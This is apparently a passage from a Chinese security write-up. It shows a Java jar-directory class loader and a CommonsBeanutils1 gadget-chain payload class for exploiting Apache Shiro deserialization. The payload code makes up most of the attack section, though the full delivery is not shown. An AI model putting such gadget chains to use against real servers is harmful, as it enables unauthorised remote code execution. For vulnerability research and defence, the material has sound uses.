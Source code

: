 ```java

    private void tryLoadJarInDir(String dirPath) {
        File dir = new File(dirPath);
        // 自动加载目录下的jar包
        if (dir.exists() && dir.isDirectory()) {
            for (File file : dir.listFiles()) {
                if (file.isFile() && file.getName().endsWith(".jar")) {
                    this.addURL(file);
                    continue;
                }
            }
        }
    }

    private void addURL(File file) {
        try {
            super.addURL(new URL("file", null, file.getCanonicalPath()));
        } catch (MalformedURLException e) {
            e.printStackTrace();
        } catch (IOException e) {
            e.printStackTrace();
        }
    }

}

```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/1074642/1631522862533-35573751-0a98-40f3-9474-3b446afc9ab7.png)<br />

### Shiro反序列化漏洞实现



```java
public class CommonsBeanutils1_192 implements ObjectPayload {
    @Override
    public Object getObject(Object templates) throws Exception {
        StandardExecutorClassLoader classLoader = new StandardExecutorClassLoader("1.9.2");
        Class u = classLoader.loadClass("org.apache.commons.beanutils.BeanComparator");

        Object beanComparator = u.getDeclaredConstructor(String.class).newInstance("lowestSetBit");
        PriorityQueue<Object> queue = new PriorityQueue(2, (Comparator<? super Object>)beanComparator);

        queue.add(new BigInteger("1"));
        queue.add(new BigInteger("1"));

        Reflections.setFieldValue(beanComparator, "property", "outputProperties");

        Object[] queueArray = (Object[])Reflections.getFieldValue(queue, "queue");
        queueArray[0] = templates;
        queueArray[1] = templates;
        return queue;
    }
}
```
